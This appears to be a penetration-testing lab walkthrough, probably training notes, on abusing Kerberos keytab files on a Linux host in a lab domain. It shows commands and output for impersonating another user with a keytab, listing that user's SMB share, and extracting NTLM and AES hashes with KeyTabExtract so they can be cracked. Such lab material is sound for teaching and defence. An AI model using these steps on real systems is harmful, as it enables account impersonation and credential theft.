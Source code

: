 
**Impersonating a User with a Keytab:**
```shell-session
david@inlanefreight.htb@linux01:~$ klist 

Ticket cache: FILE:/tmp/krb5cc_647401107_r5qiuu
Default principal: david@INLANEFREIGHT.HTB

Valid starting     Expires            Service principal
10/06/22 17:02:11  10/07/22 03:02:11  krbtgt/INLANEFREIGHT.HTB@INLANEFREIGHT.HTB
        renew until 10/07/22 17:02:11
david@inlanefreight.htb@linux01:~$ kinit carlos@INLANEFREIGHT.HTB -k -t /opt/specialfiles/carlos.keytab
david@inlanefreight.htb@linux01:~$ klist 
Ticket cache: FILE:/tmp/krb5cc_647401107_r5qiuu
Default principal: carlos@INLANEFREIGHT.HTB

Valid starting     Expires            Service principal
10/06/22 17:16:11  10/07/22 03:16:11  krbtgt/INLANEFREIGHT.HTB@INLANEFREIGHT.HTB
        renew until 10/07/22 17:16:11
```
- We are now impersonating carlos the user. We can now try to access certain shares that are on the network. 

```shell-session
david@inlanefreight.htb@linux01:~$ smbclient //dc01/carlos -k -c ls

  .                                   D        0  Thu Oct  6 14:46:26 2022
  ..                                  D        0  Thu Oct  6 14:46:26 2022
  carlos.txt                          A       15  Thu Oct  6 14:46:54 2022

                7706623 blocks of size 4096. 4452852 blocks available
```

**Extracting Secrets from Keytab:**
- We can try to crack the accounts password by extracting the password hash from the keytab file. 
- We are going to use KeyTabExtract, a tool to extract valuable information from 502-type .keytab files. 

```shell-session
david@inlanefreight.htb@linux01:~$ python3 /opt/keytabextract.py /opt/specialfiles/carlos.keytab 

[*] RC4-HMAC Encryption detected. Will attempt to extract NTLM hash.
[*] AES256-CTS-HMAC-SHA1 key found. Will attempt hash extraction.
[*] AES128-CTS-HMAC-SHA1 hash discovered. Will attempt hash extraction.
[+] Keytab File successfully imported.
        REALM : INLANEFREIGHT.HTB
        SERVICE PRINCIPAL : carlos/
        NTLM HASH : a738f92b3c08b424ec2d99589a9cce60
        AES-256 HASH : 42ff0baa586963d9010584eb9590595e8cd47c489e25e82aae69b1de2943007f
        AES-128 HASH : fa74d5abf4061baa1d4ff8485d1261c4
```
- We can see that we got some password hashes, we can use these now to try and decrypt one of them for a password. We should probably start with the NTLM hash because that is the easiest to crack. 
